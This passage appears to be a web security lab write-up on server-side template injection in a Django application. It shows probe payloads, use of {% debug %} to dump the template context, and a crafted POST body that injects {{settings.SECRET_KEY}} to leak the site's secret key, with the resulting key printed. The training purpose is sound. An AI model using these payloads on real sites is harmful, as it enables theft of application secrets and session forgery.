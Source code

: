 ```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

In the payload processing I add a rule to convert them to URL.

I got `302 Found` and I just visit the article page, and I see that I got an error message, mentioning `DJANGO`.

So, now I have the template engine used here.

In Django you can invoke the `debug` by writing `{% debug %}` and url-encoded this is: `%7B%25%20debug%20%25%7D`.

After refreshing the page I got a list of objects and properties.

```text
Hurry! Only {'product': {'name': 'The Trolley-ON', 'price': '$46.42', 'stock': 594}, 'settings': }{'False': False, 'None': None, 'True': True} {'Cookie': , 'HTMLParser': , 'SocketServer': , 'StringIO': , 'UserDict': , 'UserList': , '__builtin__': , '__future__': , '__main__': , '_abcoll': , '_ast': , '_bisect': , '_codecs': , '_collections': , '_ctypes': , '_functools': , '_hashlib': , '_heapq': , '_io': , '_json': , '_locale': , '_random': , '_socket': , '_sre': , '_ssl': , '_struct': , '_sysconfigdata': , '_sysconfigdata_nd': , '_warnings': , '_weakref': , '_weakrefset': , 'abc': , 'argparse': , 'array': , 'ast': , 'atexit': , 'base64': , 'binascii': , 'bisect': , 'bz2': , 'cPickle': , 'cStringIO': , 'calendar': , 'cgi': , 'codecs': , 'collections': , 'contextlib': , 'copy': , 'copy_reg': , 'ctypes': , 'ctypes._ctypes': None, 'ctypes._endian': , 'ctypes.ctypes': None, 'ctypes.errno': None, 'ctypes.os': None, 'ctypes.re': None, 'ctypes.struct': None, 'ctypes.subprocess': None, 'ctypes.sys': None, 'ctypes.tempfile': None, 'ctypes.util': , 'datetime': , 'decimal': , 'dis': , 'django': , 'django.__future__': None, 'django.apps': , 'django.apps.collections': None, 'django.apps.config': , 'django.apps.django': None, 'django.apps.functools': None, 'django.apps.importlib': None, 'django.apps.os': None, 'django.apps.registry': , 'django.apps.sys': None, 'django.apps.threading': None, 'django.apps.warnings': None, 'django.conf': , 'django.conf.__future__': None, 'django.conf.django': None, 'django.conf.global_settings': , 'django.conf.importlib': None, 'django.conf.os': None, 'django.conf.time': None, 'django.core': , 'django.core.__future__': None, 'django.core.base64': None, 'django.core.cache': , 'django.core.cache.__future__': None, 'django.core.cache.backends': , 'django.core.cache.backends.__future__': None, 'django.core.cache.backends.base': , 'django.core.cache.backends.django': None, 'django.core.cache.backends.time': None,
...
```

Here I see that I can access the `settings` object and I see in the documentations that it has also a property `SECRET_KEY` which can be accessed by `{{settings.SECRET_KEY}}` and if url encoded it is: `%7B%7Bsettings.SECRET_KEY%7D%7D`.

So, I put that and send the request again, the body should look like:
`csrf=igQTSvjyfggm8DjIVxJ6xFSeIZyWE0CT&template=%3Cp%3EHurry%21+Only+%7B%7Bsettings.SECRET_KEY%7D%7D+left+of+%7B%7Bproduct.name%7D%7D+at+%7B%7Bproduct.price%7D%7D.%3C%2Fp%3E&template-action=save`

After checking the page, I see the code: `Hurry! Only 82v97tio2h8tpg5a0xs5x4cfg6qy2lv5 left of The Trolley-ON at $46.42.` which I submit, and the lab is solved.

-------

